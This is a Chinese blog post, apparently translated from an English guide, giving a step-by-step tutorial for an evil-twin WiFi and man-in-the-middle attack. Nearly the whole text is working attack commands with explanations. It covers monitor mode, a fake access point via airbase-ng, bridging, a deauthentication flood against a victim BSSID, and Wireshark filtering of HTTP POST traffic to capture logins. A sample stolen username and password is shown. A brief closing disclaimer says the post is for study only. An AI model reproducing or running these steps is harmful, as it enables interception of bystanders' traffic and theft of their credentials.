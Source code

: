 title: "3.15晚会黑客WiFi实现全教程，WiFi捕获和中间人攻击"
id: 20
date: 2015-03-20 17:06:30
categories:
  - code
tags:
  - 3.15黑客wifi
  - 黑客wifi教程
  
---
####前言
>先说明一下，这个文章不是我写的，是一个老外`Deepanshu Kapoor`安全专家写的，我一开始就是看着玩，但整个看完被老外那个细心和耐心给打动了，整个过程其实很简单，但是老外分了好多步骤来讲解，每个步骤都有配图和说明，甚至命令的参数都要解释一下。不得不佩服老外分享和奉献的精神，所以我也学着奉献一下，把它翻译成中文给大家看看吧，我尽量保持原汁原味，有不恰当的地方要原谅我，毕竟我不是专业翻译。（对原文PDF文档感兴趣的留邮箱，我发给你）

####BT5 + wireshark玩wifi数据包捕获和session注入(中间人攻击)
####介绍
主要思路是通过伪造相同名称的wifi接入点，配合发送ARP数据包，攻击连入伪造wifi的用户。一个与原有wifi相同名称的伪造接入点一旦建立，会导致用户从原有链接中断开，并连入你所建立的伪造接入点中，因此所有的通信通道都会流经我的系统，届时我们通常会用session注入的方式拿到用户所有的细节/授信状态/信息等。
####必备神器
1. BT5（Backtrack操作系统）
2. 虚拟机（带USB设备）
3. 可联网的主机

####第一步
开BT5的`terminal`终端，然后输入`iwconfig`检查无线网卡。
**说明：**
`iwconfig`类似于`ifconfig`，但是是用于无线网络的。它经常被用来设置无线网卡的参数。
![image](http://static.blog.lurrpis.com/wifi1.png)
####第二步
输入`airmon-ng start wlan0`开启无线网卡。
**说明：**
这个命令可以被用来让无线网卡处于监听状态。也可以被用来从监听模式中恢复成管理模式。输入`airmon-ng`不带参数，可以显示网卡状态。
`wlan0`是指wifi网卡。
`wlan`是无线局域网， `0`是你的网卡编号。
![image](http://static.blog.lurrpis.com/wifi2.png)
####第三步
在网卡已经启动了监听模式后，输入`airodump-ng mon0`就可以开始抓包了。
**说明：**
`airodump-ng`可以用来抓`802.11`的原始帧数据包，特别适合于收集WEP的初始化向量用于`aircrack-ng`的破解。`Airodump-ng`也能够用来记录找到的接入点的坐标。
`mon0`在监听模式下和wlan0的意思是一样的。
一旦你把`wlan0`设置为`监听模式`，`wlan0`就要改为`mon0`。
![image](http://static.blog.lurrpis.com/wifi3.png)
####第四步
设置在`airodump-ng`中显示的频道ID，命令如下：
```bash
iwconfig mon0 channel 5
iwconfig wlan0 channel 5
```
或者 
```bash
iwconfig wlan0 channel 5
iwconfig mon0 channel 5
```
**说明：**
参数`channel`用来选定一个单独的特殊频道。
![image](http://static.blog.lurrpis.com/wifi4.png)
####第五步
现在开始建立你的伪造路由器，命令如下：
```bash
airbase-ng - e "belkin.3448" mon0
```
**说明：**
`airbase-ng`是个多用途的工具，可针对AP（接入点）自身的客户端进行攻击，主要的思路是驱使客户端去连接伪造的AP，不是阻止客户端去连接真实AP。
`-e + SSID`指定伪造AP的`SSID`名称。
![image](http://static.blog.lurrpis.com/wifi5.png)
####第六步
现在是时候去`桥接`所有的网络了，命令如下：
```bash
brctl addbr mitm
brctl addif mitm eth0
brctl addif mitm at0
```
中间人就是`<interface name>` 。
（这句话看原文直接翻译有些难以理解，实际上作者就是想说`at0`这个网卡架起来的网桥就是个中间人，攻击就是在这里完成的。—–译者注）

**说明：**
`Brctl` 用来在两个网卡之间建立桥接网络。
`Addbr` 用来添加网桥的对象，用`<name>`来指定网桥的名称。
`Addif` 给已经使用`addbr`创建的网桥中添加一个网卡，后边的参数使用你要添加的网卡名称即可。
![image](http://static.blog.lurrpis.com/wifi6.png)
####第七步
现在创建一个新的网卡配置，命令如下：
```bash
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
```
**说明：**
`ifconfig`不用多说了，用来配置网卡，大家经常用的。
![image](http://static.blog.lurrpis.com/wifi7.png)
####第八步
现在可以启动我们用来做中间人攻击的网桥了！命令如下：
```bash
ifconfig mitm up
```
**说明：**
配置完成的网桥可以使用`ifconfig`来启用。
![image](http://static.blog.lurrpis.com/wifi8.png)
####第九步
现在使用下面的命令发送认证包到路由器上，
```bash
aireplay-ng - - deauth 0 - a 94:44:52:DA:B4:28 mon0
```
**说明：**
`aireplay-ng`用来注入帧数据。
`-a`指定被攻击者的`BSSID`。
`94:44:52:DA:B4:28`这个是被攻击者的`BSSID`。
![image](http://static.blog.lurrpis.com/wifi9.png)
####第十步
现在开始给被攻击者分配IP，命令如下：
```bash
dhclient3 mitm&
```
或者
```bash
dhclient3 mitm &
```
**说明：**
使用类似`DHCP`的协议方式分配`IP`。
![image](http://static.blog.lurrpis.com/wifi10.png)
####第十一步
现在你可以看看是不是有客户端已经连接上了，有的话会显示在`第五步`的那个命令终端里面。
![image](http://static.blog.lurrpis.com/wifi11.png)
####第十二步
开`wireshark`，命令如下：
```bash
wireshark&
```
**说明：**
`wireshark`是个网络协议抓包分析器。
![image](http://static.blog.lurrpis.com/wifi12.png)
####第十三步
选择网卡，点开始`（start）`
![image](http://static.blog.lurrpis.com/wifi13.png)
####第十四步
输入`http contains POST`过滤一下，然后你就可以看到所有抓下来的数据包了。
![image](http://static.blog.lurrpis.com/wifi14.png)
```
http://exploit.deepanshukapoor.org/admin.php
Username – john 
Password – 1234
```
![image](http://static.blog.lurrpis.com/wifi15.png)
<blockquote class="blockquote-center" style="margin:120px 0px;"><i class="fa fa-ban"></i> 声明
本文章仅供交流学习使用
请勿外出实(zuo)践(si)
</blockquote>